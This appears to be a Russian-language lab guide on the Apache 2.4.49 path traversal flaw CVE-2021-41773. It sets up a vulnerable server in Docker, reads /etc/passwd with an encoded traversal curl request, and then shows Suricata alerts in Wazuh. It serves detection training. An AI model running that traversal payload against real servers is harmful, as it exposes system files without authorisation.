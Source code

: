 # CVE-2021-41773

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
